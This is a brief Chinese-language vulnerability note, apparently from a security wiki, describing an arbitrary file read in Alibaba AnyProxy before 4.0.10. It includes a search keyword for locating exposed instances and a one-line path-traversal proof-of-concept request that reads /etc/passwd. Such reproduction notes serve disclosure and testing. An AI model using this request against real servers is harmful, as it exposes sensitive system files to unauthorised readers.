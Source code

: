 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>Alibaba AnyProxy < 4.0.10</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"anyproxy"</a-checkbox></br>

## 漏洞复现

页面如下

![img](/assets/PeiQi-Wiki/img/image-20210718204835288.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

![img](/assets/PeiQi-Wiki/img/image-20210718204843037.png)